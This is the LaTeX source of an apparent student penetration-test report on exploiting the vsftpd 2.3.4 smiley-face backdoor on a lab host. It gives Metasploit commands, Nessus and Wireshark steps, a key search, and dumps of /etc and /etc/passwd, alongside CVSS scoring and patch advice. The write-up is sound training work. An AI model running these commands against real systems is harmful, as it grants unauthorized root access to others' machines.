%  Make this into a pdf document as follows:
%
%
% The edit the Report.tex file appropriately to include only those elements that
% make sense for the assignment you're reporting on.
%
% You can use a tool like TeXShop or Texmaker or some other graphical tool
% to convert Report.text into a pdf file.
%
% If you are making this with command line tools, you'd run the following command:
%
%     latex Report.tex
%
% That will generate a dvi (device independent) document file called Report.dvi
% The pages reported in the table of contents won't be correct, since latex only
% processes one pass over the document. To adjust the page numbers in the contents,
% run latex again:
%
%    latex Report.tex
%
% Then run
%
%   dvipdf Report.dvi
%
% to generate Report.pdf
%
% You can view this file to check it out by running
%
% xdg-open Report.pdf
%
% That's it.
  
\def\cvss(#1,#2,#3,#4,#5,#6,#7,#8,#9){
	\indent\textbf{CVSS Base Severity Rating: #9}  AV:#1 AC:#2 PR:#3 UI:#4 S:#5 C:#6 I:#7 A:#8}
  
\def\ttp(#1, #2, #3, #4, #5, #6){
   \indent\textbf{#1:} #2 \\
   \indent\indent\textbf{#3:} #4 \\
   \indent\indent\indent\textbf{#5:} #6 \\}

\documentclass[notitlepage]{article}

\usepackage{bibunits}
\usepackage{comment}
\usepackage{graphicx}
\usepackage{amsmath}
\usepackage{datetime}
\usepackage{numprint}

% processes above options
\usepackage{palatino}  %OR newcent ncntrsbk helvet times palatino
\usepackage{url}
\usepackage{footmisc}
\usepackage{endnotes}

\setcounter{secnumdepth}{3}
\begin{document}

\nplpadding{2}
\newdateformat{isodate}{
  \THEYEAR -\numprint{\THEMONTH}-\numprint{\THEDAY}}
  
\title{Penetration Test - Exercise 06}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage

\section{Technical Report}


% Include one of these headings for each finding.

  \subsection{Finding: \emph{vsftdp Smiley Face Backdoor}}
  
	\subsubsection*{Severity Rating}
		High Risk Factor
	   	
		\cvss(N,L,N,N,U,H,H,H,8.8)
		
  	\subsubsection*{Vulnerability Description}
  		The vulnerability discovered in this section is known as the vsftpd smiley face backdoor specific to
        certain versions of vsftpd running on the host network. If a user attempts to login with a username containing a smiley
        face :), a backdoor is triggered and the host shell begins to listen on TCP port 6200. Any user that logs in
        with this in their username now possibly has root level access and can look at files, run code, and delete files.

  	\subsubsection*{Confirmation method}
  	    To run the exploit, start up the Metasploit framework and run the following commands in the kali command line:
        \begin{verbatim}
            sudo msfdb init
            msfconsole
            use exploit/unix/ftp/vsftpd 234 backdoor
            set RHOST ns.artstailor.com
            exploit
        \end{verbatim}

    \subsubsection*{Mitigation or Resolution Strategy}
        A complete validation and recompilation of the source code is required to patch this issue. This
        issue was patched in versions after July 2011. Immediate steps should be taken to install a newer version
        of vsftpd.

\section{Attack Narrative}

    \subsection{Vulnerabilty Scans}
        First, artstailor was scanned using Nessus which does an in depth scan of open ports and 
        some possible vulnerabilities found. To use this scan, first we use do the following commands:
        \begin{verbatim}
        sudo systemctl start  nessusd.service
        xdg-open https://localhost:8834
        \end{verbatim}
        Once the page is open, we can start an advanced scan using the information about the OS found
        previously. We can choose as many plugins as we want, but just using the plugins related to Linux, OpenSSH,
        and Apache where enough to find the vulnerability. We also want to make sure we turn on potential false alarms,
        override normal accuracy box. perform thorough tests and turn off only use credentials provided by user. The scan
        will reveal a High Risk vulnerability called 55523 - vsftpd Smiley Face Backdoor. From here, it is time
        to exploit this vulnerability.

    \subsection{Metasploit}
        We can use the general steps from earlier to run the exploit. To find the exploit, I used
        the command
        \begin{verbatim}
            search vsftdp
        \end{verbatim}
        and then once I entered the vulnerability, I used 
        \begin{verbatim}
            show options
        \end{verbatim}
        To see that I needed to set the Remote Host which I set to ns.artstailor.com

    \subsection{Wireshark}
        Before using the exploit, I spun up an instance of wireshark to monitor network traffic being sent
        to gain access to the shell. The following packets were found which I found to be important \\

\includegraphics[width=5in, height=1in]{/home/esteban/Desktop/school/fall2023/pen/ex/ex06/user_and_pass.png}\\
        In this image, we can clearly see the requests and reponses such as "Please specify the password" 
        to which the request is "PASS a6m" and we can also see that the username contains a smiley as expected
        We can also see some other important ports such as port 6200 pictured below\\

\includegraphics[width=5in]{/home/esteban/Desktop/school/fall2023/pen/ex/ex06/ports.png}\\
        This appears to be TCP requests and responses with commands typed into the shell and the output of
        said commands sent back. Thus, we can see that port 21 and port 6200 are both used in this exploit.

   \subsection{MITRE ATT{\&}CK Framework TTPs}    
	
    \subsubsection*{}
    \ttp(TA0043, Reconnaissance, T1593, Active Scanning, .002, Vulnerability Scanning)
    \subsection*{}
    \ttp(TA0042, Resource Development, T1584, Compromise Infrastructure, .004, Server)
    \subsubsection*{}
    \textbf{TA0042:} Resource Development \\
    \indent \textbf{T1650:} Acquire Access \\
    \subsection*{}
    \ttp(TA0011, Command and Control, T1071, Application Layer Protocol, .002, File Transfer Protocols)

    \subsection{Key}
    To find the key, the find command was employed as follows:
    \begin{verbatim}
        find / -iname "*KEY[0-9]*" 2>/dev/null
    \end{verbatim}
    which produced file /home/vsftp/key8 and the contents were:
    \begin{verbatim}
        KEY008-u35DuEmIe319ItByiKdK/Q==    
    \end{verbatim}

    \subsection{Confirmation of Entry}
        There are several different pictures and files I can use to prove I entererd the server.
        Below are some private files in the /tmp folder\\

\includegraphics[width=5in]{/home/esteban/Desktop/school/fall2023/pen/ex/ex06/proof_backdoor.png}\\
        We can also access some more sensitive files such as the ones in /etc. Below is a cropped list of only some
        of the files we can see in /etc.
        \begin{verbatim}
 find . -maxdepth 1 -type f -exec ls -alps {} \;
4 -rw-r--r-- 1 root root 552 Jan  3  2023 ./pam.conf
4 -rw-r--r-- 1 root root 3040 May 25 11:54 ./adduser.conf
4 -rw-r--r-- 1 root root 917 Sep 13 22:21 ./group
4 -rw-r--r-- 1 root root 26 Dec 20  2020 ./libao.conf
12 -rw-r--r-- 1 root root 11634 Aug  6  2022 ./analog.cfg
4 -rw-r--r-- 1 root root 1853 Oct 17  2022 ./ethertypes
4 -rw-r--r-- 1 root root 4 Aug 27 19:30 ./hostname
16 -rw-r--r-- 1 root root 12569 Nov 11  2022 ./login.defs
4 -rw-r--r-- 1 root root 72 Sep 13 22:20 ./subgid-
4 -rw-r--r-- 1 root root 2969 Jan  8  2023 ./debconf.conf
4 -rw-r--r-- 1 root root 144 Aug 23 19:41 ./kernel-img.conf
0 -rw-r--r-- 1 root root 0 Aug 23 17:42 ./environment
4 -rw-r--r-- 1 root root 44 Aug 23 19:42 ./adjtime
4 -rw-r--r-- 1 root root 72 Sep 13 22:20 ./subuid-
4 -rw-r--r-- 1 root root 11 Aug 23 17:42 ./timezone
4 -rw-r--r-- 1 root root 681 Jan 17  2023 ./xattr.conf
4 -rw-r--r-- 1 root root 1201 Dec  2  2018 ./smi.conf
8 -rw-r--r-- 1 root root 4343 Jun 27 07:45 ./sudo.conf
8 -rw-r--r-- 1 root root 7374 Sep 18  2022 ./bogofilter.cf
4 -r--r--r-- 1 root root 33 Aug 23 17:42 ./machine-id
44 -rw-r--r-- 1 root root 41158 Sep 18 22:28 ./mailcap
4 -rw-r--r-- 1 root root 116 Aug 23 17:42 ./shells
4 -rw-r--r-- 1 root root 51 Mar  7  2022 ./vdpau_wrapper.cfg
4 -rw-r--r-- 1 root root 2183 Sep 13 22:21 ./passwd
4 -rw-r--r-- 1 root root 111 Jan 28  2023 ./magic
4 -rw-r--r-- 1 root root 769 Apr 10  2021 ./profile
12 -rw-r--r-- 1 root root 11399 Jan 18  2023 ./nanorc
4 -rw-r--r-- 1 root root 60 Aug 23 17:42 ./networks
4 -rw-r--r-- 1 root root 248 Aug 23 17:42 ./modules
4 -rw-r--r-- 1 root root 2223 Sep 13 22:20 ./passwd-
12 -rw-r--r-- 1 root root 10593 Oct 15  2022 ./sensors3.conf
4 -rw-r--r-- 1 root root 411 Aug 23 19:01 ./hosts.allow
4 -rw-r--r-- 1 root root 1994 Apr 23 17:23 ./bash.bashrc
4 -rw-r--r-- 1 root root 2584 Jul 29  2022 ./gai.conf
4 -rw-r--r-- 1 root root 711 Aug 23 19:01 ./hosts.deny
4 -rw-r--r-- 1 root root 45 Jan 24  2020 ./bash_completion
16 -rw-r--r-- 1 root root 12813 Mar 27  2021 ./services
4 -rw-r--r-- 1 root root 449 Nov 29  2021 ./mailcap.order
4 -rw-r--r-- 1 root root 55 Sep 13 22:21 ./subuid
4 -rw-r--r-- 1 root root 1706 May 25 11:54 ./deluser.conf
4 -rw-r--r-- 1 root root 494 Dec 14  2022 ./logrotate.conf
4 -rw-r--r-- 1 root root 767 Aug 11  2022 ./netconfig
4 -rw-r--r-- 1 root root 2355 Dec 19  2022 ./sysctl.conf
4 -rw-r--r-- 1 root root 367 Sep 22  2022 ./bindresvport.blacklist
        \end{verbatim}
        and the files that we have access to read such as passwd yields the following cropped result
        \begin{verbatim}
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
tss:x:100:107:TPM software stack,,,:/var/lib/tpm:/bin/false
        \end{verbatim}
\end{document} 
